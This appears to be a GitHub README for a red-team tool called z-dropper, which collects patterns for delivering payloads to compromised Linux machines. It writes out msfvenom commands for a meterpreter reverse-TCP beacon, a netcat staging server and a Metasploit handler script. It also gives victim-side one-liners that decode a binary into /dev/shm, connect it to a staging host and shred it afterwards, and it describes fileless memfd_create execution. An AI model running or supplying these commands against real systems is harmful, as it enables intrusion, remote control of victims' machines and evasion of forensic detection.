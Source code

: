 # z-dropper

## Purpose

This repository contains the collection of code execution building blocks and patterns useful during red team engagements.

## Backend (basic version)

Staging machine (ephemeral) serving stageless `mettle` payload:

```
staging$ msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<C2_IP> LPORT=443 --platform linux -f elf -a x64 -o beacon-mettle
staging$ nc -nlvp 443 < beacon-mettle
```

Meterpreter handler as our command and control (`C2`) machine:

```
c2$ cat > mettle-handler.rc <<'EOF'
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter_reverse_tcp
set LHOST <C2_IP>
set LPORT 443
set ExitOnSession false
exploit -j -z
EOF

c2$ msfconsole -r mettle-handler.rc
```

## Pattern 0

```
wget https://raw.githubusercontent.com/mzet-/z-dropper/main/z-dropper-case0.zig
```

## Pattern 1

Assumptions:

 - Red Team member has already achieved remote `/bin/sh` access to the victim machine.
 - Only `z-dropper` is dropped on the victim's filesystem (though only on `tmpfs`).
 - Main payload (stageless `mettle` binary in this case) is downloaded and executed using `memfd_create` syscall (directly from memory).

Preparing C version:

```
# Getting z-dropper source file:
wget https://raw.githubusercontent.com/mzet-/z-dropper/main/z-dropper-case1.c

# Compilation and base64 encoding:
EXE=z-dropper-case1; zig cc -static -Os -target x86_64-linux-musl ${EXE}.c -o $EXE; strip -x -R -s -g $EXE; echo; cat "$EXE" | base64 -w 0; echo; echo

# On the victim machine (where `<BASE64_ENCODED_BIN>` is taken from previous step):
echo -n '<BASE64_ENCODED_BIN>' | base64 -d >/dev/shm/s; chmod +x /dev/shm/s; /dev/shm/s <STAGING_IP> 443; shred -u -f -z /dev/shm/s
```

Preparing Zig version:

```
# Getting source file:
wget https://raw.githubusercontent.com/mzet-/z-dropper/main/z-dropper-case1.zig

# Compilation and base64 encoding:
EXE=z-dropper-case1; zig build-exe -OReleaseSmall --strip ${EXE}.zig; echo; cat "$EXE" | base64 -w 0; echo; echo

# On the victim machine (where `<BASE64_ENCODED_BIN>` is taken from previous step):
echo -n '<BASE64_ENCODED_BIN>' | base64 -d >/dev/shm/s; chmod +x /dev/shm/s; /dev/shm/s <STAGING_IP> 443; shred -u -f -z /dev/shm/s
```

## Pattern 2

Assumptions:

 - Red Team member has already achieved remote `/bin/sh` access to the victim machine.
 - Pure fileless execution (with the help of Python interpreter)
 - Python 3 interpreter is required on the victim machine. 
 - Payload (stageless `mettle` binary in this case) is downloaded and executed using `memfd_create` syscall using Python's `ctype` module.
